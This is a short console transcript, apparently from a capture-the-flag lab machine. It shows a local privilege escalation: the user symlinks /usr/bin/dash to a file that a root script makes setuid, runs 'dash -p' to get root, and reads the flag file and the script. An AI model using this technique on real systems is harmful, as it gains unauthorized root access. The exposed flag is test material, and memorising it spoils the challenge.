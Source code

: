 ```console
suidy@suidy:~$ rm suidyyyyy 
suidy@suidy:~$ which dash
/usr/bin/dash
suidy@suidy:~$ ln -s /usr/bin/dash suidyyyyy
suidy@suidy:~$ ls -al /usr/bin/dash
-rwsr-sr-x 1 root root 121464 ene 17  2019 /usr/bin/dash
suidy@suidy:~$ dash -p
# id
uid=1001(suidy) gid=1001(suidy) euid=0(root) egid=0(root) grupos=0(root),1001(suidy)
# cd /root
# ls
root.txt  timer.sh
# cat root.txt
HMV0000EVE
# cat timer.sh  
#!/bin/sh
chmod +s /home/suidy/suidyyyyy
```
